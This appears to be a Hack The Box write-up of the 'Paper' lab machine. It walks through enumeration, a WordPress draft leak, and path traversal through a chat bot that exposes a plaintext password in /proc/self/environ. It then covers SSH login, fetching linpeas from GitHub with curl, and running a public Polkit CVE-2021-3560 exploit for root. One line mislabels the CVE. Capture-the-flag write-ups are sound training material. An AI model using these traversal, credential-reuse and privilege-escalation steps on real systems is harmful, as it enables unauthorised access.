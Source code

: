 # HACKTHEBOX - Paper

## Description
Release Area(private machine)
```bash
export IP=10.129.155.83
```
## Enumeration
```bash
sudo nmap -v -sV -sC -oN nmap.txt $IP
```
**nmap result**:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: .....
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
```

```bash
gobuster dir -u http://10.129.155.83/ -w /usr/share/wordlists/dirb/common.txt
# /cgi-bin/
# /manual
```
```bash
nikto -host http://10.129.155.83/ # from now on, let's make nikto scan in every webserver when doing enumeration.
```
**nikto results**:
```
+ Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-backend-server' found, with contents: office.paper
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/7.2.24
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
```

## Foothold
`x-backend-server: office.paper`

**Backend Server??**: https://bizflycloud.vn/tin-tuc/tong-quan-ve-front-end-server-va-back-end-server-la-gi-20181029105229742.htm

Ok, let's add backend server `office.paper` domain name to  `/etc/hosts` file.
```
10.129.155.83 office.paper
```

**Access**: http://office.paper/

Blog app powered by `wordpress`
```
# Author: prisonmike
Feeling Alone!
I am sorry everyone. I wanted to add every one of my friends to this blog, but Jan didn’t let me.

So, other employees who were added to this blog are now removed.

As of now there is only one user in this blog. Which is me! Just me.

# Comment section
June 20, 2021 at 2:49 pm
Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
-Nick
```

Wappalyzer: `WordPress 5.2.3`
```bash
searchsploit WordPress 5.2.3
# WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts | multiple/webapps/47690.md
```

**multiple/webapps/47690.md**:
```
So far we know that adding `?static=1` to a wordpress URL should leak its secret content
Here are a few ways to manipulate the returned entries:
..... sql injection
In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content.
```

**Access**: http://office.paper/?static=1

Secret content:
```
Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.
# Also, stop looking at my drafts. Jeez
```
Ok, add `chat.office.paper` to `/etc/hosts`

**Access**: http://chat.office.paper/register/8qozr226AhkCHZdyY

Register --> meet bot chat can list and read file

`/etc/passwd`:
```
root❌0:0:root:/root:/bin/bash

rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

`../../../proc/self/environ`:
```
RESPOND_TO_EDITED=trueROCKETCHAT_USER=recyclopsLANG=en_US.UTF-8OLDPWD=/home/dwight/hubotROCKETCHAT_URL=http://127.0.0.1:48320ROCKETCHAT_USESSL=falseXDG_SESSION_ID=1USER=dwightRESPOND_TO_DM=truePWD=/home/dwight/hubotHOME=/home/dwightPORT=8000ROCKETCHAT_PASSWORD=Queenofblad3s!23SHELL=/bin/shSHLVL=4BIND_ADDRESS=127.0.0.1LOGNAME=dwightDBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1004/busXDG_RUNTIME_DIR=/run/user/1004PATH=/home/dwight/hubot/node_modules/coffeescript/bin:node_modules/.bin:node_modules/hubot/node_modules/.bin:/usr/bin:/bin_=/usr/bin/cat
```

**credential found**: `USER=dwight` : `ROCKETCHAT_PASSWORD=Queenofblad3s!23`

## RCE
```bash
ssh dwight@$IP
# Password: Queenofblad3s!23
```
Yes, thank god, f!#$ me!!

**user flag**: `cde7cc2e041eed042fadd30ade7XXXXX`

## Privileged Escalation
using `linpeas` to enumeration but nothing, #$%#

But my friend, remember to stay up to date

**Linpeas**: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

*Newest version*: `2.6.8` while the script you using is `2.2.4`
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh # | sh # get newest version

# Download linpeas.sh to remote machine 

./linpeas.sh
# [Vulnerable to CVE-2021-3560]
```

Found the exploit for `CVE-2021-3506`:
```bash
git clone https://github.com/Almorabea/Polkit-exploit

# transfer to remote machine and
python3 CVE-2021-3560.py
# wait
# .
# .
id # root
```

**root flag**: `XXXXXXXXXXXXXXXXXXXXXXX`
